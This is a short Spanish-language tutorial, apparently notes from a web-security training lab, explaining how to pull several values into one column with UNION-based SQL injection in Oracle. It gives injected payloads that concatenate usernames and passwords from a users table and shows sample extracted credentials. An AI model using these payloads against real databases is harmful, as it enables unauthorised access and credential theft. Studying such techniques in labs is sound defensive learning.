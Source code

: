 # Recuperar múltiples valores dentro de una sola columna

Se puede recuperar valores juntos dentro de una única columna concatenando los valores. Se pueden incluir separadores para distinguir los valores.

## Ejemplo en Oracle

Payload inyectado:

```
' UNION SELECT username || '~' || password FROM users--
```

Esto utiliza el operador `||` (concatenación de cadenas en Oracle). La consulta inyectada concatena los valores de los campos `username` y `password`, separados por el carácter `~`.

Resultado (ejemplo):

```
administrator~s3cure
wiener~peter
carlos~montoya
```

## Notas

* Diferentes bases de datos tienen diferente sintaxis para concatenar cadenas.
* En el laboratorio se muestra un ejemplo combinado:

```
' UNION SELECT NULL,'a'--
```

Que puede transformarse en:

```
' UNION SELECT NULL,username ||'~'|| password FROM users--
```


